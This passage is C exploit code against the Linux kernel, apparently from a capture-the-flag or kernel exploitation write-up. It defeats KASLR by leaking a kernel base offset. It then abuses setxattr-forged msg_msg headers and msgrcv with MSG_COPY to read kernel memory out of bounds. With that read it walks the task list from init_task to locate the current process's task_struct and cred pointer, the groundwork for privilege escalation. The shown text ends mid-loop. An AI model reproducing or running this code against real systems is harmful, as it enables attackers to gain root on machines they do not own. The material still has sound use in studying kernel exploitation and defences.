 ```c
        if (buffer[i] > kernel_base && (buffer[i] & 0xfff) == 0x200)
        {
            kernel_offset = buffer[i] - 0xffffffff81c4f200;
            kernel_base += kernel_offset;
            break;
        }
        if (buffer[i] > kernel_base && (buffer[i] & 0xfff) == 0xaa0)
        {
            kernel_offset = buffer[i] - 0xffffffff81a15aa0;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1)
    {
        err_exit("Failed to leak kernel_offset.");
    }

    leak_info("kernel_offset", kernel_offset);
    leak_info("kernel_base", kernel_base);

    init_task += kernel_offset;
    leak_info("init_task", init_task);

    size_t read_pid = getpid();
    size_t cur_task = init_task;
    cur_cred = 0;
    size_t *task_task = NULL;

    int pid_index = 114;
    int tgid_index = 115;

    int next_index = 84;
    int cred_index = 167;

    while (1)
    {
        memset(buffer, 0, 0x4000);
        buffer[0] = buffer[1] = 0;
        buffer[2] = 1;
        buffer[3] = 0x1000 - 0x30 + 0x1000 - 8;
        buffer[5] = 0;

        buffer[4] = cur_task - 8;
        setxattr("/exploit", "ltfall", buffer, 0x40, 0);

        memset(buffer, 0, 0x4000);
        int res = msgrcv(msg_id[0], buffer, 0x1000 - 0x30 + 0x1000 - 8, 0, MSG_NOERROR | MSG_COPY | IPC_NOWAIT);
        if (res < 0x1000 - 0x30 + 0x1000 - 8)
            err_exit("No such long rcv.");

        task_task = (size_t *)((size_t)buffer + 8 + 0x1000 - 0x30);
        // leak_content(buffer, 0x2000 / 8);
        leak_info("thread_info", task_task[0]);
        leak_info("pid", task_task[tgid_index]);
        leak_info("next", task_task[next_index]);
        leak_info("cred", task_task[cred_index]);

        if ((task_task[tgid_index] & 0xffffffff) == read_pid)
        {
            success("find task_struct.");
```